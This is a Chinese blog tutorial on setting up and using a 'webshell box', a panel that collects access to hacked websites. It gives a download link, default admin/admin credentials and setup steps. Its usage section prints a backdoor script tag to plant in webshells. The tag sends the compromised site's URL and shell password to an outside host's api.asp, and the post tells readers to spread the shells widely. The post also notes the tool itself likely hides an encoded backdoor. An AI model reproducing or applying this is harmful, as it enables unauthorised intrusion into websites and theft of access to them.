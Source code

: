 # 原创
：  【webshell箱子】webshell箱子 搭建过程，使用方法，附带所需的下载链接

# 【webshell箱子】webshell箱子 搭建过程，使用方法，附带所需的下载链接

**目录**

<img alt="" height="23" src="https://img-blog.csdnimg.cn/3e16e88a938146659a6222f56290bf45.png" width="23"/>[webshell搭建](#webshell%E6%90%AD%E5%BB%BA)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/3e16e88a938146659a6222f56290bf45.png" width="23"/>[错误过程：](#%E9%94%99%E8%AF%AF%E8%BF%87%E7%A8%8B%EF%BC%9A)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>[错误一：](#%E9%94%99%E8%AF%AF%E4%B8%80%EF%BC%9A) 

<img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>[错误二：](#%E9%94%99%E8%AF%AF%E4%BA%8C%EF%BC%9A)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>[错误三：](#%E9%94%99%E8%AF%AF%E4%B8%89%EF%BC%9A)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/3e16e88a938146659a6222f56290bf45.png" width="23"/>[正确搭建过程：](#%E6%AD%A3%E7%A1%AE%E6%90%AD%E5%BB%BA%E8%BF%87%E7%A8%8B%EF%BC%9A)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>[第一步：软件下载](#%E7%AC%AC%E4%B8%80%E6%AD%A5%EF%BC%9A%E8%BD%AF%E4%BB%B6%E4%B8%8B%E8%BD%BD)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>[第二步：放在网站目录下](#%E7%AC%AC%E4%BA%8C%E6%AD%A5%EF%BC%9A%E6%94%BE%E5%9C%A8%E7%BD%91%E7%AB%99%E7%9B%AE%E5%BD%95%E4%B8%8B)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>[第三步：将asp服务器放在网站目录下](#%E7%AC%AC%E4%B8%89%E6%AD%A5%EF%BC%9A%E5%B0%86asp%E6%9C%8D%E5%8A%A1%E5%99%A8%E6%94%BE%E5%9C%A8%E7%BD%91%E7%AB%99%E7%9B%AE%E5%BD%95%E4%B8%8B)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>[第四步：打开webshell_box](#%E7%AC%AC%E5%9B%9B%E6%AD%A5%EF%BC%9A%E6%89%93%E5%BC%80webshell_box)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>[警示：](#%E8%AD%A6%E7%A4%BA%EF%BC%9A)

<img alt="" height="23" src="https://img-blog.csdnimg.cn/3e16e88a938146659a6222f56290bf45.png" width="23"/>[使用方法：](#%E4%BD%BF%E7%94%A8%E6%96%B9%E6%B3%95%EF%BC%9A)

---


## <img alt="" height="23" src="https://img-blog.csdnimg.cn/3e16e88a938146659a6222f56290bf45.png" width="23"/>webshell搭建 

## <img alt="" height="23" src="https://img-blog.csdnimg.cn/3e16e88a938146659a6222f56290bf45.png" width="23"/>错误过程：

### <img alt="" height="23" src="https://img-blog.csdnimg.cn/974c5894475f4c3fafa96f7b789fb7ba.png" width="23"/>错误一： 

> 
下载后直接将asp服务器（Sws）直接放在webshell_box文件里面



### <img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>错误二：

> 
使用与asp服务器环境不相匹配的系统安装





### <img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>错误三：

> 
错误打开方式，即使用打开其他网站一样的方式输入地址打开



## <img alt="" height="23" src="https://img-blog.csdnimg.cn/3e16e88a938146659a6222f56290bf45.png" width="23"/>正确搭建过程：

### <img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>第一步：软件下载

> 
链接：https://pan.baidu.com/s/1wlnQVd6wd0oEXvKjD7SnRw?pwd=hj12 <br/> 提取码：hj12
（内含webshellbox和asp服务器Sws）
Sws我测试的时候不支持win11（准确的说，是Sws支持win10以及以前的版本，毕竟已经老东西了）
如果不行就换小旋风等其他asp服务器试试
但是像我们这样的，应该会有虚拟机，我用我的win7搭建又搭建了一遍
（下一个phpstudy就可以了）

（我是没放后门的，自证清白，人在做天在看，举头三尺有神明） 


### <img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>第二步：放在网站目录下

> 
 这个网站目录即phpstudy的www下



### <img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>第三步：将asp服务器放在网站目录下

> 
 （这个要根据所下载的asp的服务器的使用方法确定）
Sws是这样用的，如果下其他的服务器，请参考一下说明
把这个复制粘贴到目录下



### <img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>第四步：打开webshell_box

> 
在目录下，双击Sws2.3就可以直接在浏览器中打开了
然后先加载出来一个登录页面
账号：admin
密码：admin



### <img alt="" height="23" src="https://img-blog.csdnimg.cn/fb081d7d7af744efb159e5bae5711331.png" width="23"/>警示：

> 
 点开系统设置的时候，有乱码，应该是被编码过
据我推测解码后会有后门
（我先声明不是我干的）





 <img alt="" src="https://img-blog.csdnimg.cn/e450474ecaf140178739b8fb0b6031bc.png"/>

## <img alt="" height="23" src="https://img-blog.csdnimg.cn/3e16e88a938146659a6222f56290bf45.png" width="23"/>使用方法：

> 
一般就是在小马里面制作后门，也就是调用了webshell箱子的api
（要认真学一下木马）
&lt;script src=""http://xxx/api.aspurl="&amp;server.URLEncode("""http://"&amp;request.ServerVariables("HTTP_HOST")&amp;request.ServerVariables("url"))&amp;"&amp;pass="&amp;UserPass&amp;"""&gt;&lt;/script&gt;
（在网盘里面有）

下面2个实现获取当前网站的ip地址
&amp;_SERVER["PHP_SELE"];正在执行的脚本文件名
$_SERVER["HTTP_HOST"];获取当前请求的host头部内容，即网站地址





 然后将小马到处……
然后会返回URL、密码、后门服务器

一般打开开发者模式，点击网络，查看有没有传向其他地址的数据包，查看有没有后门


